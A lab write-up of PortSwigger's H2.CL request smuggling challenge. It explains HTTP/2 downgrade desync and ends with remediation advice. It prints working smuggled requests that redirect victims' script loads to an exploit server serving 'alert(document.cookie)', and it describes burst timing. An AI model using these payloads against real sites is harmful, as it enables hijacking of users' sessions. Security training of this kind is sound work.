## Challenge Overview
* **Challenge name**: H2.CL request smuggling
* **Category**: HTTP Request Smuggling
* **Level**: Practitioner
* **Objective**: Perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.

---

## 1. Fundamental Concepts

HTTP/2 to HTTP/1.1 protocol translation (downgrading) introduces critical transport-layer parsing discrepancies between edge reverse proxies and upstream application servers. When a front-end proxy accepts an HTTP/2 request with an ambiguous length definition and blindly preserves conflicting headers during downgrade, attackers can induce H2.CL request smuggling. Chaining this vulnerability with an on-site directory redirection primitive enables attackers to weaponize an open redirect, hijacking dynamic JavaScript imports and executing stored/reflected Cross-Site Scripting (XSS) within victim browsing sessions without user interaction.

### 1.1. HTTP/2 Binary Framing Architecture vs. HTTP/1.1 Downgrading
* **Binary Framing Model:** In native HTTP/2 (RFC 7540 / RFC 9113), messages are organized into discrete binary frames (HEADERS, DATA, etc.) over multiplexed streams. Each DATA frame includes an explicit 24-bit length header, meaning HTTP/2 parsers never rely on Content-Length or Transfer-Encoding headers to determine request body boundaries. Length ambiguity within pure HTTP/2 is mathematically impossible.
* **Protocol Downgrading Semantic Gap:** Many cloud and enterprise web infrastructures deploy modern reverse proxies (e.g., Cloudflare, AWS ALB, Nginx, Envoy) supporting HTTP/2 at the public edge while forwarding requests to legacy backend servers over cleartext HTTP/1.1 streams.
* **The H2.CL Vulnerability Mechanism:** When a client submits an HTTP/2 request containing an arbitrary `Content-Length: 0` header alongside an actual message body in the DATA frame, the front-end proxy processes the entire body based on the DATA frame length. However, upon translating the request into HTTP/1.1 for the backend, the proxy fails to recalculate or strip the `Content-Length` header, instead forwarding `Content-Length: 0` verbatim to the upstream server.
* **Backend Desynchronization:** The backend HTTP/1.1 parser evaluates the request based on the forwarded `Content-Length: 0` header, concluding that the request body is 0 bytes. Consequently, the remaining bytes that arrived in the HTTP/2 DATA frame are left stranded in the backend's persistent TCP socket buffer, where they prepend to the subsequent transaction.

### 1.2. Transforming On-Site Redirections into Open Redirects
* **Path Normalization Redirects:** Modern web servers automatically normalize directory paths that omit a trailing slash (such as `GET /resources`) by issuing an `HTTP/1.1 302 Found` redirect pointing to the canonical path with a slash (`/resources/`).
* **Dynamic Host Reflection:** In standard server configurations, the redirect target in the `Location` response header is dynamically constructed using the incoming `Host` header: `Location: https://` + `Request.Host` + `/resources/`.
* **Weaponized Open Redirect:** By smuggling a request targeting `/resources` that supplies an attacker-controlled Host header (`Host: attacker-exploit-server.net`), the attacker causes the backend to generate a redirect pointing directly to the attacker's server.

### 1.3. JavaScript Sub-Resource Hijacking and Browser Execution Contexts
* **Sub-Resource Script Fetch:** When a browser renders an HTML page containing dynamic script elements like `<script src="/resources/js/analyticsFetcher.js"></script>`, it issues a sub-resource HTTP request to retrieve the JavaScript file.
* **Script Execution Context:** If the sub-resource request encounters the poisoned socket buffer, the browser receives the 302 redirect to the attacker's exploit server, follows the redirect, and executes the returned JavaScript payload within the victim's session context.
* **Top-Level vs. Sub-Resource Execution Nuance:** If an attacker poisons the socket when the victim requests the primary HTML document (`GET /`), the victim's browser navigates its top-level window to the exploit server URL. In a top-level document context, browsers display JavaScript files as plain text rather than executing them. Therefore, successful exploitation requires precise timing (burst transmission) to intercept the sub-resource script import rather than the initial document load.

> [!IMPORTANT]
> **KEY TAKEAWAY:** H2.CL request smuggling allows attackers to smuggle an incomplete request prefix past the front-end. By targeting a path normalization endpoint (`/resources`) with an external Host header, attackers transform an internal redirect into an Open Redirect, hijacking script imports (`<script src=...>`) to achieve zero-click XSS execution.

---

## 2. Attack Model & Architecture

The attack model illustrates how an attacker exploits H2.CL downgrading to smuggle a request prefix targeting an on-site directory redirect. When a victim loads the application, the sub-resource script request is redirected to the attacker's exploit server, downloading and executing the malicious JavaScript.

```text
[Attacker]
    │
    │ (1) Sends Malicious HTTP/2 Request
    │     - Outer Request: POST / HTTP/2 (DATA frame contains entire body)
    │     - Injected Header: Content-Length: 0
    │     - Smuggled Body:
    │         GET /resources HTTP/1.1
    │         Host: attacker-exploit-server.net
    │         Content-Length: 5
    │         \r\n\r\n
    │         x=1
    ▼
[Front-end Reverse Proxy] (Parses HTTP/2 via DATA frame length)
    │ Reads entire payload; downgrades request to HTTP/1.1
    │ Unhygienically forwards 'Content-Length: 0' verbatim to backend
    ▼
[Back-end Application Server] (Parses HTTP/1.1 via Content-Length: 0)
    │ - Reads 'Content-Length: 0' -> Completes outer Request 1 (Returns 200 OK to Attacker)
    │ - Smuggled bytes remain pending in persistent TCP receive buffer:
    │     GET /resources HTTP/1.1\r\nHost: attacker-exploit-server.net\r\nContent-Length: 5\r\n\r\nx=1
    ▼
[Victim Browser Browses Home Page]
    │ (2) Victim loads home page (GET /) -> HTML parses:
    │     <script src="/resources/js/analyticsFetcher.js"></script>
    │ (3) Browser issues sub-resource request over shared TCP connection:
    │     GET /resources/js/analyticsFetcher.js HTTP/1.1
    ▼
[Back-end Concatenates Stream]
    │ - Victim's request line is absorbed by 'x=1':
    │     x=1GET /resources/js/analyticsFetcher.js HTTP/1.1...
    │ - Back-end executes:
    │     GET /resources HTTP/1.1
    │     Host: attacker-exploit-server.net
    │ - Normalization logic triggers 302 Redirect reflecting untrusted Host:
    │     HTTP/1.1 302 Found
    │     Location: https://attacker-exploit-server.net/resources/
    ▼
[Victim Browser Follows Redirect]
    │ - Browser's <script> loader follows 302 Redirect to attacker-exploit-server.net
    │ - Exploit server returns: alert(document.cookie) [Content-Type: application/javascript]
    │ - Browser executes JavaScript in vulnerable origin -> Complete Client Compromise!
```

### 2.1. Attack Lifecycle & Data Flow Breakdown
1. **Phase 1 - H2.CL Probe & Socket Desynchronization:** The attacker establishes an HTTP/2 session with the front-end proxy and transmits a POST request containing an injected `Content-Length: 0` header alongside a smuggled HTTP/1.1 body.
2. **Phase 2 - Buffer Priming:** The front-end forwards the stream to the backend. The backend reads 0 bytes of body for the outer request, leaving the smuggled `GET /resources` prefix pending in the TCP socket receive buffer.
3. **Phase 3 - Victim Sub-Resource Invocation:** The victim bot visits the home page every 10 seconds. The browser renders the HTML and dispatches an asynchronous GET request for `/resources/js/analyticsFetcher.js` across the shared backend connection.
4. **Phase 4 - Parameter Absorption & Stream Concatenation:** The backend merges the pending prefix with the victim's request. The victim's request line is absorbed by `x=1` under the specified `Content-Length: 5`. The backend executes the smuggled request for `/resources` with the attacker's Host header.
5. **Phase 5 - Script Hijacking & Payload Execution:** The backend responds with an HTTP 302 redirect pointing to the attacker's exploit server. The victim's browser script loader follows the redirect, retrieves the payload, and executes `alert(document.cookie)`.

### 2.2. Root Causes
* **Protocol Downgrade Header Preservation:** The edge proxy does not sanitize, recalculate, or strip client-supplied `Content-Length` headers when translating incoming HTTP/2 frames into HTTP/1.1 streams.
* **Dynamic Host Header Reflection in Redirects:** The application constructs redirect URLs dynamically from the client-controlled `Host` header without verifying it against an internal whitelist.
* **Shared Upstream Connection Multiplexing:** Persistent TCP connections between the front-end proxy and back-end servers are multiplexed across distinct, untrusted client sessions without connection isolation.

---

## 3. Vulnerability Exploitation

The vulnerability was empirically verified, weaponized, and executed using Burp Suite Repeater and the PortSwigger Exploit Server through an 11-step structured procedure.

### 3.1. Establishing HTTP/2 Baseline Communication
A baseline request was captured in Burp Suite Repeater (`GET / HTTP/2`). In the Inspector panel under **Request Attributes**, protocol negotiation was set to HTTP/2. The server returned `HTTP/2 200 OK`:



Inspection of the response HTML markup revealed critical dynamic sub-resource script dependencies:

```html
<script type="text/javascript" src="/resources/js/analyticsFetcher.js"></script>
<script src="/resources/labheader/js/labHeader.js"></script>
```

### 3.2. Probing for H2.CL Desynchronization
To confirm H2.CL desynchronization, a request was dispatched over HTTP/2 with an injected `Content-Length: 0` header and a body containing the test string `SMUGGLING`:

```http
POST / HTTP/2
Host: 0a0e0045042cb18383a7a0dd0011006a.web-security-academy.net
Content-Length: 0

SMUGGLING
```

The front-end accepted the request via DATA frame length and returned `HTTP/2 200 OK`:



An immediate follow-up request was dispatched over the same connection. The back-end concatenated `SMUGGLING` to the incoming request line (`SMUGGLINGPOST / HTTP/1.1`), returning `HTTP/2 404 Not Found` (`"Not Found"`):



### 3.3. Identifying the On-Site Path Normalization Redirect
A probe was dispatched to test path normalization behavior on directory endpoints without a trailing slash (`POST /resources HTTP/2` with `Content-Length: 0`):



The server issued an `HTTP/2 302 Found` redirect with `Location: https://0a0e0045042cb18383a7a0dd0011006a.web-security-academy.net/resources/`, proving that the `Location` header is derived directly from the incoming `Host` header.

### 3.4. Staging the Malicious Script on the Exploit Server
The PortSwigger Exploit Server was configured to host the malicious JavaScript payload at `/resources`:
* **File Path:** `/resources`
* **Head:** `HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8`
* **Body:** `alert(document.cookie)`



### 3.5. Weaponizing the H2.CL Request Smuggling Payload
A weaponized H2.CL payload was constructed in Burp Repeater. The smuggled request called `/resources` while setting `Host` to the Exploit Server:

```http
POST / HTTP/2
Host: 0a0e0045042cb18383a7a0dd0011006a.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0aa4002604ccb11983a39f20017a0011.exploit-server.net
Content-Length: 5

abc
```

The payload was transmitted, returning an initial `HTTP/2 200 OK` and priming the socket buffer:



Follow-up testing in Burp Repeater confirmed stream interaction:



The payload body was updated to `x=1` (`Content-Length: 5`). Dispatching a test probe verified that the back-end generated the open redirect pointing to the Exploit Server:



The weaponized payload was re-transmitted to prime the backend buffer for the victim:



### 3.6. Overcoming the Race Condition & Triggering Execution
Because the victim bot visits the home page every 10 seconds, intercepting the initial document load (`GET /`) redirects the top-level window, displaying JavaScript as raw text without execution. To intercept the subsequent sub-resource fetch (`GET /resources/js/analyticsFetcher.js`), the payload was transmitted in rapid bursts (spam-sending in Repeater every 1-2 seconds across a 15-second window).

Inspection of the Exploit Server access logs confirmed that the victim IP (`10.0.4.177`) was repeatedly redirected to `/resources/`, successfully triggering execution in the `<script>` context:



Upon execution of `alert(document.cookie)` within the victim browser, the laboratory was solved:



---

## 4. Remediation & Prevention

Mitigating H2.CL request smuggling and script hijacking attacks requires coordinated hardening across protocol translation gateways, web server redirect logic, and browser execution policies.

### 4.1. End-to-End HTTP/2 Implementation
* **Deploy Native Binary Framing:** Modernize upstream application tiers to support native HTTP/2 or HTTP/3. Preserving end-to-end binary framing completely eliminates protocol downgrading and string-based header ambiguity.
* **Strict Length Normalization:** If protocol downgrading is unavoidable, configure edge proxies to strictly validate and overwrite client-supplied `Content-Length` headers with the exact byte count of the HTTP/2 DATA frame before passing requests downstream.

### 4.2. Reverse Proxy Hardening & Header Sanitization
* **Strict Framing Enforcement:** Under RFC 7540 Section 8.1.2, proxies must treat any HTTP/2 request containing hop-by-hop headers or contradictory framing indicators as malformed, rejecting them with an immediate `HTTP 400 Bad Request`.
* **Socket Buffer Sanitization:** Configure reverse proxies to terminate backend persistent connections immediately if any unconsumed bytes remain on a socket after completing a request/response cycle.

### 4.3. Secure URL Redirection & Host Header Validation
* **Relative Redirects:** Web servers should issue path normalization redirects using relative paths (e.g., `Location: /resources/`) rather than absolute URLs containing dynamic Host headers.
* **Host Header Whitelisting:** If absolute redirects are required, validate the incoming `Host` header against a strict, static server-side whitelist. Reject or sanitize any requests containing unrecognized domain names.

### 4.4. TCP Connection Pool Isolation
* **Connection Pool Isolation:** Never reuse backend keep-alive TCP connections across distinct client IP addresses, TLS sessions, or user boundaries. Disabling cross-tenant connection pooling prevents smuggled bytes from bleeding into third-party transactions.

### 4.5. Content Security Policy (CSP) Defense-in-Depth
* **Strict script-src Policy:** Implement a strict Content Security Policy restricting the domains from which scripts can be loaded: `Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com;`. Even if an open redirect is achieved, the browser will refuse to load scripts from unauthorized exploit servers.
